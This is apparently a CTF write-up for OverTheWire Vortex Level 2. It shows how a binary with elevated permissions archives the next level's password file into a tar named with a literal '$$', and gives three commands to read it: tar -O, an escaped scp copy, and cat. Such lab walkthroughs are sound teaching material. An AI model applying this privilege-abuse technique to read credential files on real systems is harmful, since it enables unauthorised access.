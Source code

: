 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 2"
categories: [CTF, OverTheWire]
---
```


![Logo](/assets/images/vortex2.png)

## Context
The binary from [level 2](http://overthewire.org/wargames/vortex/vortex2.html) creates a _special file_, one whose name contains _**\$\$**_: _ownership.\$\$.tar_. 

<blockquote>
  <p>The $ variable [..] expands to the process ID of the shell. In a () subshell, it expands to the process ID of the invoking shell, not the subshell.</p>
  <cite><a target="_blank" href="https://www.gnu.org/software/bash/manual/html_node/Special-Parameters.html#Special-Parameters">bash manual page</a>
</cite> </blockquote>

This binary file has permissions to read the password file from the next level, so what we have to do is archive the password file, and then read it, taking into account the special file name.

First, to create the archive:
```bash
vortex2@melissa:/etc/vortex_pass$ /vortex/vortex2 vortex3 vortex3 vortex3
vortex2@melissa:/etc/vortex_pass$ ls -alh '/tmp/ownership.$$.tar'
-rw-r--r-- 1 vortex3 vortex2 10K 2012-09-06 23:19 /tmp/ownership.$$.tar
```

File created. Now to untar and read the content: 

### Method 1

We cannot untar it there, so the **-O** option (output to _`STDOUT`_) is very useful :
```bash
vortex2@melissa:/etc/vortex_pass$ tar xf '/tmp/ownership.$$.tar' -O
*****
```

### Method 2

We could copy it locally with _`scp`_ and untar it. I had a little problem with the file name passed forward by scp, which can be seen and adapted with verbose mode, then check the transmitted file name and adjust it:
```bash
scp -v vortex2@vortex.labs.overthewire.org:'test$$' .
[..]
debug1: Sending command: scp -v -f test$$
scp: test415: No such file or directory
```

We see that **$$** is transmitted,  and will be interpreted, so it should be correctly escaped. Copy archive locally:
```bash
# scp vortex2@vortex.labs.overthewire.org:'/tmp/ownership.\$\$.tar' .
```

### Method 3
The _`tar`_ command from the binary does not use compression, so the content of the archive can be viewed: 
```bash
vortex2@melissa:/etc/vortex_pass$ cat '/tmp/ownership.$$.tar'
[..]
*****
```
